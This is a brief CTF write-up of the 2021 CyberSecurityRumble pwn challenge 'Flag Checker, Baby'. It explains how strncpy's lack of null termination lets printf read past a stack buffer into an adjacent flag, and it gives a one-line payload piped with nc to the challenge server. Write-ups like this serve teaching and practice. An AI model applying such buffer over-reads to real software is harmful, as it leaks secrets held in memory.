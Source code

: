 `2021` `CyberSecurityRumble CTF` `pwn` `bof` `strncpy` `null-termination`  

# Flag Checker, Baby
[chall.c](./chall.c)

This program is perfectly safe, right? It only tells you what you already know. Check your flags:

nc challs.rumble.host 53921
___

As `strncpy` doesn't guarantee NULL-termination, sending a non NULL-terminated string of max buffer length causes `printf` to read further characters after where the `guess`
buffer resides on the stack - where `flag` is stored.

`ruby -e 'puts "A"*31' | nc challs.rumble.host 53921`
